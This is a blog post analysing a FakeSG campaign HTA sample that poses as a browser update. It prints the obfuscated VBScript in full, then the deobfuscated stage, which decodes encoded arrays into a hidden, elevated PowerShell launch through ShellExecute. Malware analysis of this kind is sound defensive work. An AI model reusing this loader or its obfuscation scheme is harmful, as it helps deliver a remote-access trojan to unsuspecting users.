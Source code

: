 ```yaml
---
layout: post
title:  "Analyzing FakeSG Malware Campaign Sample"
date:   2023-09-12 00:00:00 +0000
categories: malware
---
```


FakeSG is an ongoing malware campaign (as of 12 Sep 2023). The campaign aims to compromise websites, which imitate the victim's browser update page - prompting the user to install and execute a malicious file.


### 1. Campaign
The FakeSG campaign is known for its heavy obfuscation and payload delivery tactics - opting to HTML Applications `(.hta)` files to ultimately deliver the [NetSupport Manager RAT](https://malpedia.caad.fkie.fraunhofer.de/details/win.netsupportmanager_rat). [(Source)] (https://www.pcrisk.com/removal-guides/27315-fakesg-malware).

In this blog entry, we will analyze a `.hta` instance from the campaign, pulled off [MalwareBazaar](https://bazaar.abuse.ch/sample/4a9f42167f399abfbb42a5ee4d52922eb3f7f1ce88d23824f01d13e50609b8b9/)


<br>
### 2. Obfuscation
Here's a snippet of the embedded VBScript in the `.hta` document. The obfuscation consists of 3 main parts.

A brief explanation of VBScript syntax:
+ `:` separates the next command, like `;` in most other languages.
+ `=` denotes variable assignment.
+ `&H` denotes a hexadecimal number. (`&H10` equals decimal 16).
+ `ChrW()` converts decimal numbers into unicode characters.
+ `&` concatenates strings together.

<br>
{% highlight vbscript %}
<script language="vBsCrIPt">

a70=574 - &H1F8:a117=872 - &H2F3:a110=932 - &H336:a99=711 - &H264:a116=679 - &H233:a105=980 - &H36B:a111=255 - &H90:a110=582 - &H1D8:a32=390 - &H166:a66=684 - &H26A:a99=926 - &H33B:a100=642 - &H21E:a40=925 - &H375:a66=955 - &H379:a121=707 - &H24A:a86=809 - &H2D3:a97=1071 - &H3CE:a108=814 - &H2C2:a32=965 - &H3A5:a71=269 - &HC6:a68=183 - &H73:a66=258 - &HC0:a41=307 - &H10A:a13=994 - &H3D5:a10=241 - &HE7:a32=633 - &H259:a32=320 - &H120:a32=815 - &H30F:a32=265 - &HE9:a32=530 - &H1F2:a32=964 - &H3A4:a32=571 - &H21B:a32=932 - &H384:a32=614 - &H246:a32=320 - &H120:a32=605 - &H23D:a32=394 - &H16A:a32=334 - &H12E:a32=980 - &H3B4:a32=598 - &H236:a32=293 - &H105:a32=874 - &H34A:a32=452 - &H1A4:a32=764 - &H2DC:a68=669 - &H259:a105=755 - &H28A:a109=1095 - &H3DA:a32=840 - &H328:a120=335 - &HD7:a100=585 - &H1E5:a113=1018 - &H389:a13=492 - &H1DF:a10=683 - &H2A1:a32=758 - &H2D6:a32=619 - &H24B:a32=443 - &H19B:a32=620 - &H24C:a32=871 - &H347:a32=513 - &H1E1:a32=992 - &H3C0:a32=719 - &
...
...
res =  ChrW ( a70 ) & ChrW ( a117 ) & ChrW ( a110 ) & ChrW ( a99 ) & ChrW ( a116 ) & ChrW ( a105 ) & ChrW ( a111 ) & ChrW ( a110 ) & ChrW ( a32 ) & ChrW ( a66 ) & ChrW ( a99 ) & ChrW ( a100 ) & ChrW ( a40 ) & ChrW ( a66 ) & ChrW ( a121 ) & ChrW ( a86 ) & ChrW ( a97 ) & ChrW ( a108 ) & ChrW ( a32 ) & ChrW ( a71 ) & ChrW ( a68 ) & ChrW ( a66 ) & ChrW ( a41 ) & ChrW ( a13 ) & ChrW ( a10 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a68 ) & ChrW ( a105 ) & ChrW ( a109 ) & ChrW ( a32 ) & ChrW ( a120 ) & ChrW ( a100 ) & ChrW ( a113 ) & ChrW ( a13 ) & ChrW ( a10 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( 
...
...
Execute Eval("Eval(""Eval(""""Eval(""""""""Eval(""""""""""""""""Eval(""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval
...
...

Close
</script>
{% endhighlight %}



<br>
### 3. Deobfuscation

We notice that a string is built on the `res` variable.

{% highlight powershell %}
res =  ChrW ( a70 ) & ChrW ( a117 ) & ChrW ( a110 ) & ChrW ( a99 ) ...
{% endhighlight %}

<br>
To dynamically extract its contents, we add the line `document.write(res)` and run the malicious code. Then, we simply copy the value from the HTA window.

{% highlight powershell %}
res =  ChrW ( a70 ) & ChrW ( a117 ) & ChrW ( a110 ) & ChrW ( a99 ) ...
document.write(res)
{% endhighlight %}

<br>
Shown below is the value of `res` in plaintext. Long arrays and ShellExecute - looks pretty gnarly.

{% highlight vbscript %}

Function Bcd(ByVal GDB) 
    Dim xdq 
    Dim nHV 
    nHV = 608 
    Dim kBR 
    kBR = wHR(GDB) 
    If kBR = 7000 + 1204 Then 
        For Each xdq In GDB 
            Dim TMN 
            TMN = TMN & Chr(xdq - nHV) 
        Next 
    End If 
    Bcd = TMN 
End Function 

Function qSN() 
    Dim GDB 
    Dim DQJ 
    GDB = Array(640,653,677,728,709,707,725,724,713,719,718,688,719,716,713,707,729,640,693,718,690,709,723,724,722,713,707,724,709,708,640,691,724,705,722,724,653,688,722,719,707,709,723,723,640,647,707,717,708,654,709,728,709,647,640,653,695,713,718,708,719,727,691,724,729,716,709,640,712,713,708,708,709,718,640,653,673,722,711,725,717,709,718,724,684,713,723,724,640,731,655,707,640,720,719,727,709,722,723,712,709,716,716,654,709,728,709,640,644,715,678,728,688,682,640,669,640,647,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,674,664,722,717,697,660,710,680,720,706,664,712,709,714,683,656,698,677,665,713,659,724,697,705,677,716,686,721,662,661,661,714,723,674,726,693,720,681,682,678,680,687,718,657,725,707,661,716,689,714,660,674,709,657,716,660,665,692,691,721,725,730,711,664,694,665,676,680,724,693,724,675,722,685,708,655,698,684,726,687,698,661,686,715,711,678,720,722,715,690,710,658,693,705,679,665,729,680,720,708,712,724,722,676,730,720,690,682,679,676,713,675,705,691,662,673,717,683,713,728,651,712,707,694,688,716,696,710,716,714,729,718,676,686,684,727,730,660,688,693,722,714,717,659,655,691,708,719,722,663,708,706,659,710,713,698,709,721,711,711,724,697,689,657,718,698,682,656,688,726,676,692,706,664,696,661,712,665,697,721,718,678,714,716,727,719,674,718,657,683,721,717,660,728,690,716,691,665,720,676,675,659,709,651,721,661,684,710,705,677,716,716,727,697,691,659,710,676,674,656,673,673,727,683,688,681,655,729,685,687,730,663,729,714,722,694,729,720,718,686,713,685,678,674,712,696,693,698,719,685,691,713,651,719,728,665,676,713,686,714,683,710,710,698,720,727,683,725,687,685,662,661,682,688,694,688,656,696,707,722,682,707,694,664,683,687,687,720,682,711,682,707,683,676,679,665,726,698,659,675,691,725,706,675,684,678,683,684,723,680,657,677,684,695,716,692,663,729,661,689,684,651,684,720,723,659,662,676,697,695,677,707,663,713,679,730,663,705,727,716,697,722,691,710,659,678,728,698,696,712,721,691,719,726,720,674,659,715,677,721,717,697,692,727,692,651,656,709,718,697,689,717,708,689,685,660,730,717,720,665,696,656,729,719,693,729,684,673,674,715,657,725,716,681,678,728,681,662,710,676,687,698,726,688,691,657,687,665,687,662,728,679,723,686,662,678,682,662,723,664,696,712,656,696,709,724,691,660,710,706,661,709,681,722,713,695,657,728,678,686,685,680,709,711,723,674,690,661,709,684,656,651,697,711,677,689,665,718,709,663,657,720,729,676,677,692,689,683,715,655,712,684,690,709,674,695,688,716,677,662,673,705,678,719,684,660,708,728,658,696,661,728,715,662,691,729,727,708,695,673,696,724,656,681,721,729,695,728,685,707,710,730,719,709,675,651,685,658,708,719,679,692,724,680,651,729,691,730,719,709,658,730,692,727,718,655,720,674,719,728,719,692,662,694,686,677,676,695,686,663,674,721,682,730,716,697,709,688,687,655,713,713,716,712,697,680,678,696,718,697,713,707,675,688,678,722,715,712,710,663,693,651,723,728,660,683,691,682,718,727,718,720,722,713,686,708,725,680,692,694,711,698,721,679,686,658,723,651,710,695,682,714,658,673,729,730,665,675,713,685,720,707,722,710,724,691,655,689,723,679,705,725,724,651,729,712,698,656,705,675,696,692,657,688,723,665,692,691,719,712,658,692,658,665,680,690,693,693,726,680,711,698,689,727,680,680,695,677,676,686,705,665,673,657,715,675,716,684,721,680,707,684,665,663,683,722,680,662,689,656,694,724,677,697,727,688,660,716,710,692,680,690,657,698,691,655,712,689,694,680,689,676,664,676,685,712,665,696,716,730,684,676,712,690,705,709,673,660,715,657,710,728,686,684,661,724,709,681,727,696,717,659,680,720,657,727,678,691,722,714,718,721,658,662,682,709,725,678,718,664,660,726,661,674,708,684,689,692,726,693,723,708,691,710,683,675,706,719,674,726,698,661,711,677,682,684,723,709,708,720,690,729,730,709,660,684,727,713,695,687,682,714,712,720,718,711,719,658,659,718,706,687,692,711,711,664,661,697,720,712,721,698,690,679,665,681,682,690,690,724,715,683,730,656,710,690,655,661,686,692,657,711,684,686,683,717,664,663,687,730,693,713,727,723,714,705,696,685,651,712,679,691,693,722,715,709,708,683,656,658,725,688,714,730,664,681,674,656,659,716,673,674,727,690,723,658,722,711,709,695,698,710,714,693,712,694,656,651,697,710,717,657,686,681,665,687,689,708,690,659,695,721,705,674,680,705,678,694,692,707,690,730,679,730,657,675,692,676,716,686,662,730,651,705,714,651,697,727,709,658,682,689,681,723,687,665,658,661,660,694,696,659,661,681,686,727,662,715,727,676,723,655,680,696,716,661,727,673,655,714,724,730,710,710,663,683,677,712,678,690,727,662,715,710,692,712,693,655,692,658,684,714,692,682,675,705,665,655,675,707,687,722,724,726,708,727,694,697,663,722,656,677,659,656,689,674,693,727,714,691,724,728,728,698,706,694,690,691,693,677,691,698,698,714,682,682,662,728,658,685,686,727,674,675,710,662,665,728,673,676,684,688,716,685,726,651,714,710,679,689,684,683,692,706,689,686,683,721,676,724,723,694,682,717,718,723,723,697,685,708,679,695,714,712,725,655,659,715,689,678,713,686,728,687,698,698,695,711,690,729,693,680,718,730,715,716,725,692,685,714,710,680,709,661,717,686,679,678,663,711,720,681,687,697,662,656,678,681,677,687,705,711,710,714,695,692,679,677,718,686,661,709,715,655,680,725,730,683,678,723,712,707,690,656,721,651,689,710,728,706,698,689,697,656,656,678,697,665,725,691,692,727,688,684,717,665,716,724,657,729,664,655,722,691,694,697,728,674,692,711,681,658,723,707,678,730,707,687,718,685,686,718,728,693,691,693,708,710,709,683,727,691,655,716,726,686,721,715,710,685,663,674,709,691,695,715,690,656,682,720,719,708,724,725,691,729,729,685,712,658,663,729,680,728,720,697,726,727,659,685,695,681,655,705,655,684,716,659,698,693,728,723,696,725,720,657,693,730,686,658,695,692,660,674,686,657,706,676,711,690,659,677,659,664,717,696,661,730,663,709,659,682,665,727,709,722,692,665,726,698,678,688,677,721,729,675,728,691,706,659,721,692,681,707,709,697,655,655,728,719,692,679,675,659,664,686,656,674,722,677,677,720,657,693,683,660,685,717,709,710,694,690,715,665,689,669,669,647,667,644,681,679,698,705,716,695,640,669,640,647,697,656,682,721,694,659,682,716,708,677,728,691,706,696,694,716,694,718,682,679,689,694,720,717,689,718,712,685,690,694,682,727,692,659,686,688,706,717,694,662,707,659,681,669,647,667,644,688,705,676,705,695,682,714,694,640,669,640,686,709,727,653,687,706,714,709,707,724,640,647,691,729,723,724,709,717,654,691,709,707,725,722,713,724,729,654,675,722,729,720,724,719,711,722,705,720,712,729,654,673,709,723,685,705,718,705,711,709,708,647,667,644,688,705,676,705,695,682,714,694,654,685,719,708,709,640,669,640,699,691,729,723,724,709,717,654,691,709,707,725,722,713,724,729,654,675,722,729,720,724,719,711,722,705,720,712,729,654,675,713,720,712,709,722,685,719,708,709,701,666,666,677,675,674,667,644,688,705,676,705,695,682,714,694,654,688,705,708,708,713,718,711,640,669,640,699,691,729,723,724,709,717,654,691,709,707,725,722,713,724,729,654,675,722,729,720,724,719,711,722,705,720,712,729,654,688,705,708,708,713,718,711,685,719,708,709,701,666,666,698,709,722,719,723,667,644,688,705,676,705,695,682,714,694,654,674,716,719,707,715,691,713,730,709,640,669,640,657,658,664,667,644,688,705,676,705,695,682,714,694,654,683,709,729,691,713,730,709,640,669,640,658,661,662,667,644,688,705,676,705,695,682,714,694,654,683,709,729,640,669,640,699,691,729,723,724,709,717,654,675,719,718,726,709,722,724,701,666,666,678,722,719,717,674,705,723,709,662,660,691,724,722,713,718,711,648,644,681,679,698,705,716,695,649,667,644,722,696,715,729,714,640,669,640,699,691,729,723,724,709,717,654,675,719,718,726,709,722,724,701,666,666,678,722,719,717,674,705,723,709,662,660,691,724,722,713,718,711,648,644,715,678,728,688,682,649,667,644,730,727,681,717,708,687,695,684,640,669,640,644,722,696,715,729,714,699,656,654,654,657,661,701,667,644,688,705,676,705,695,682,714,694,654,681,694,640,669,640,644,730,727,681,717,708,687,695,684,667,644,725,684,726,716,709,721,680,709,728,640,669,640,644,688,705,676,705,695,682,714,694,654,675,722,709,705,724,709,676,709,707,722,729,720,724,719,722,648,649,667,644,719,725,673,697,681,688,714,720,730,640,669,640,644,725,684,726,716,709,721,680,709,728,654,692,722,705,718,723,710,719,722,717,678,713,718,705,716,674,716,719,707,715,648,644,722,696,715,729,714,652,640,657,662,652,640,644,722,696,715,729,714,654,684,709,718,711,724,712,640,653,640,657,662,649,667,644,688,705,676,705,695,682,714,694,654,676,713,723,720,719,723,709,648,649,667,644,718,707,692,692,673,718,640,669,640,686,709,727,653,687,706,714,709,707,724,640,691,729,723,724,709,717,654,681,687,654,685,709,717,719,722,729,691,724,722,709,705,717,648,640,652,640,644,719,725,673,697,681,688,714,720,730,640,649,667,644,727,684,687,709,673,722,698,640,669,640,686,709,727,653,687,706,714,709,707,724,640,691,729,723,724,709,717,654,681,687,654,685,709,717,719,722,729,691,724,722,709,705,717,667,644,710,715,715,697,684,712,718,687,730,640,669,640,686,709,727,653,687,706,714,709,707,724,640,691,729,723,724,709,717,654,681,687,654,675,719,717,720,722,709,723,723,713,719,718,654,679,730,713,720,691,724,722,709,705,717,640,644,718,707,692,692,673,718,652,640,648,699,681,687,654,675,719,717,720,722,709,723,723,713,719,718,654,675,719,717,720,722,709,723,723,713,719,718,685,719,708,709,701,666,666,676,709,707,719,717,720,722,709,723,723,649,667,644,710,715,715,697,684,712,718,687,730,654,675,719,720,729,692,719,648,640,644,727,684,687,709,673,722,698,640,649,667,644,710,715,715,697,684,712,718,687,730,654,675,716,719,723,709,648,649,667,644,718,707,692,692,673,718,654,675,716,719,723,709,648,649,667,699,706,729,724,709,699,701,701,640,644,691,697,708,712,687,714,728,640,669,640,644,727,684,687,709,673,722,698,654,692,719,673,722,722,705,729,648,649,667,644,721,712,697,728,709,714,717,640,669,640,699,691,729,723,724,709,717,654,692,709,728,724,654,677,718,707,719,708,713,718,711,701,666,666,693,692,678,664,654,679,709,724,691,724,722,713,718,711,648,644,691,697,708,712,687,714,728,649,667,644,721,712,697,728,709,714,717,640,732,640,720,719,727,709,722,723,712,709,716,716,640,653,640,733) 
    Dim thI 
    DQJ = Array(720,719,727,709,722,723,712,709,716,716,654,709,728,709) 
    thI = Bcd(GDB) 
    Set Mdq = RSv(Bcd(Array(691,712,709,716,716,654,673,720,720,716,713,707,705,724,713,719,718))) 
    LJD = Bcd(DQJ) 
    Mdq.ShellExecute LJD, thI,"","runas",0 self.close() 
End Function 

Function wHR(ByVal kBR) 
    wHR = VarType(kBR) 
End Function 

Function RSv(ByVal objectType) 
    Set RSv = CreateObject(objectType) 
End Function 

qSN() 

{% endhighlight %}